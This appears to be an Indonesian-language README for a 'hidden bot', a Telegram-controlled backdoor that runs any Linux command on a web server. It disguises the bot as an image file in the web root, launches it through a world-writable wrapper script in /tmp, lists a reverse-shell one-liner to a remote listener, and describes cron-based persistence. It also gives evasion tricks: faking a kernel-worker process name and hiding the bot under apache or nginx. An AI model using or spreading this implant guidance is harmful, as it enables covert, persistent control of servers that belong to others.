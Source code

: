# hidden bot Wrapper Script


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>
📌 Konsep Wrapper Script dalam Eksekusi Bot Telegram adalah, <br> skrip perantara yang digunakan untuk menjalankan program atau skrip lain secara tidak langsung. <br> Ini berguna untuk menyembunyikan, menyederhanakan, atau mengontrol eksekusi skrip utama.<br>

Dalam kasus ini, kita memiliki: <br>

Skrip utama (default.png) yang sebenarnya adalah bot Telegram, <br> tetapi namanya disamarkan agar terlihat seperti file gambar. <br>
Wrapper script (dockerbot), yang bertindak sebagai perantara untuk menjalankan default.png.

📂 Struktur File
```
/var/www/html/default.png  --> Skrip utama bot (disamarkan sebagai file gambar)
/tmp/img/dockerbot         --> Wrapper script untuk menjalankan default.png
```
📜 Isi Wrapper Script (dockerbot)
```
#!/bin/bash
/var/www/html/default.png
```

📌 Penjelasan:
```
#!/bin/bash → Menentukan bahwa skrip ini dijalankan menggunakan Bash.
/var/www/html/default.png → Memanggil skrip utama bot yang disamarkan sebagai file gambar.
Jadi, setiap kali dockerbot dijalankan, sebenarnya yang terjadi adalah default.png (yang merupakan bot Telegram) akan dieksekusi.
```
<br>
<br>
<br>
<br>


📌cara eksekusi
<br>
1️⃣ Buat file /tmp/img/dockerbot

Isi dengan:

```
#!/bin/bash
/sesuaikan/dengan/lokasi/botpng/default.png
```
2️⃣ Beri izin eksekusi
```
chmod 777 /tmp/img/dockerbot
```

3️⃣ menjalankan bot 

```
bash /tmp/img/dockerbot
```



apasaja yg bisa di jalankan di bot telegram

```
perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


🔥 Fitur systemd
✅ Monitoring bot setiap 5 menit menggunakan cronjob
✅ Jika bot mati, otomatis dijalankan ulang. otomatis
✅ Mengirim pesan saat bot mati (misalnya karena kill, CTRL+C, atau shutdown)

```
<br>
<br>
<br>
<br>
<br>

📌NOTE bot ini masih bisa di modifikasi dengan metode :
```
Ubah Nama Proses di Runtime (Fake Process Name)
exec -a "[kworker/u8:2]" /var/www/html/default.png
💡 Efek: Saat dicek dengan ps aux atau pgrep -af, proses akan terlihat sebagai [kworker/u8:2] (nama biasa untuk kernel worker).

📌Jalankan Proses dengan PPID Palsu
Agar tidak terlihat mencurigakan, <br> bisa jalankan bot di bawah proses parent yang sudah ada, misalnya apache2 atau nginx:
nohup setsid /var/www/html/default.png > /dev/null 2>&1 &
💡 Efek: Bot terlihat sebagai bagian dari apache/nginx saat dicek dengan pstree atau ps.
Dengan kombinasi metode ini, bot jadi lebih stealth tanpa akses root. 🔥
```

